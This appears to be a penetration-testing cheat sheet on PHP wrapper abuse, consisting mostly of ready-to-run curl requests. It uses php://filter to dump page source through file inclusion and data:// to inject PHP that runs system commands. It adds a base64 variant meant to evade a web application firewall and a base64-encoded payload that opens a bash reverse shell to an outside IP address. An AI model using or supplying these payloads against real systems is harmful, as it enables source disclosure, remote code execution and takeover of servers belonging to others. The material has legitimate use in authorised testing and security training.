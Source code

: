 # PHP Wrappers

## php://filter

If you see a page that doesn't include a closing `<body>` tag for reasons such as it being under maintenance, we can still view the hidden information with the `php://filter` wrapper.

Given the original request:

```powershell
# Original request
curl http://example.com/index.php?page=admin.php

# Wrapper
php://filter/convert.base64-encode

# Modified request
curl http://example.com/index.php?page=php://filter/convert.base64-encode/resource=admin.php
```

We can then decode the output to view the entire page even if it was originally cutoff.

**Note:** This technique can also be used with LFI

### data://

In the same context, we can utilize the `data://` wrapper to obtain RCE.

```powershell
# Original request
curl http://example.com/index.php?page=admin.php

# Wrapper
data://text/plain,

# Modified request
curl "http://example.com/index.php?page=data://text/plain,<?php%20echo%20system('ls');?>"

# Base64 encoded to bypass WAF (possibly filtering on the string "system")
curl 'http://example.com/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls'

# Base64 encoded reverse shell
curl 'http://example.com/index.php?page=data://text/plain;base64,PD9waHAgZXhlYygiL2Jpbi9iYXNoIC1jICdiYXNoIC1pID4mIC9kZXYvdGNwLzE5Mi4xNjguNDUuMTUxLzkwMDEgMD4mMSciKTs/Pgo='
```

